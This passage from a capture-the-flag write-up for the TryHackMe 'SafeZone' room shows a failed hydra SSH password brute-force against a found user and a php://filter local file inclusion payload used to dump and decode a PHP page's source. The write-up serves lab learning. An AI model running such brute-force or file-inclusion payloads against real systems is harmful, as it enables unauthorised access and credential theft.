 - Found system users: `files` and `yash`

**Hmm... Maybe we can brute force it's password in SSH via `hydra`?**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/SafeZone]
└─# hydra -l 'files' -P /usr/share/wordlists/rockyou.txt ssh://$RHOSTS
[...]
[STATUS] 176.00 tries/min, 176 tries in 00:01h, 14344223 to do in 1358:22h, 16 active
[STATUS] 112.00 tries/min, 336 tries in 00:03h, 14344063 to do in 2134:32h, 16 active
```

But no dice.

**Since we have LFI, we can try to read `/detail.php` PHP source code:** 
```
/detail.php?page=php://filter/convert.base64-encode/resource=detail.php
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/SafeZone/images/Pasted%20image%2020221230014153.png)

**Then base64 decode it:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/SafeZone/images/Pasted%20image%2020221230014220.png)

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/SafeZone]
└─# base64 -d detail.b64 > detail.php
```

```php
[...HTML code...]
<?php
$con=mysqli_connect("localhost","root","{Redacted}","db");
session_start();
if(isset($_SESSION['IS_LOGIN']))
{
$is_admin=$_SESSION['isadmin'];
echo "<h2 style='color:Tomato;margin-left:100px;margin-top:-80px'>Find out who you are :) </h2>";
echo "<br><br><br>";
if($is_admin==="true")
{
echo '<div style="align:center;" class="divf">';
echo '<form class="box" method="POST" style="text-align:center">';
echo '<input required AUTOCOMPLETE="OFF" style="text-align:center;" type="text" placeholder="user" name="name"><br><br>';
echo '<input type="submit" value="whoami" name="sub">';
echo '</form>';
```